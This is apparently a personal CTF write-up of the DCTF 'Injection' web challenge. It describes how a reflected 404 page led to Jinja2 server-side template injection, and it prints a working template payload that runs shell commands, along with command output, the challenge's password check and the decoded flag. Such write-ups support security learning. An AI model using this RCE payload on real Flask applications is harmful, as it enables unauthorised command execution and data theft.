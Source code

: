 # Injection

http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/

![Pasted image 20210516170501](https://user-images.githubusercontent.com/70921512/118423622-d387a380-b69b-11eb-95e3-50008df586c3.png)

There is an admin login with the parameters "User", "Password" and a hidden "Submit".

Inputting anything into these won't work, and we'll be redirected to `/login` where we get the message:

`Oops! Page login doesn't exist :(`

I really didn't know how to work this one out. I tried looking at the robots.txt, other known directories, the root directory where the image is stored, but nothing.

Eventually, I figured the website was responding to anything that I was throwing at it through the 404 response page, even xss:

![Pasted image 20210516170833](https://user-images.githubusercontent.com/70921512/118423632-da161b00-b69b-11eb-9827-b4165a4be012.png)

But eh, couldn't figure it out for a while. I initially thought it was SQLi, and was put off by it because I know barely any SQLi.

After googling a bit more I found some CTF writeups that had something similar, and eventually landed on the `SSTI` keyword...

Stupidly enough I had already read about SSTIs prior to this, but I couldn't make the connection earlier.

# Solution
So we try:
`http://dctf1-chall-injection.westeurope.azurecontainer.io:8080/{{1+1}}` 
and we get

`Oops! Page 2 doesn't exist :(`

Nice.

`{{config}}` gives us a bunch of data, among it:

` 'MESSAGE': 'You are getting closer!`

After that it becomes trivial, and we just have to find a way to get terminal access. We eventually land on:

`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}` << where COMMAND is our command.

Running `ls`:
`app.py
lib
static
templates`

Running `ls lib`:
`security.py`

Running `cat lib/security.py`

```
import base64


def validate_login(username, password):
 if username != 'admin':
 return False
 valid_password = 'QfsFjdz81cx8Fd1Bnbx8lczMXdfxGb0snZ0NGZ'
 return base64.b64encode(password.encode('ascii')).decode('ascii')[::-1].lstrip('=') == valid_password
 ```
 
 So we just get the password encoded in a backwards b64, just flip it and decode it:
 
```
base64.b64decode(password[::-1]+"==")
b'dctf{4ll_us3r_1nput_1s_3v1l}'
```

And we get the flag :D

# Notes:

Sometimes, the environment will be vary a lot. Most of the payloads I tried that I found online wouldn't work, so I had to craft my own. To make it, I used this medium article that was AMAZING:

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


#----------
`{{''.__class__.__mro__[1].__subclasses__()[414]('COMMAND',shell=True,stdout=-1).communicate()}}`
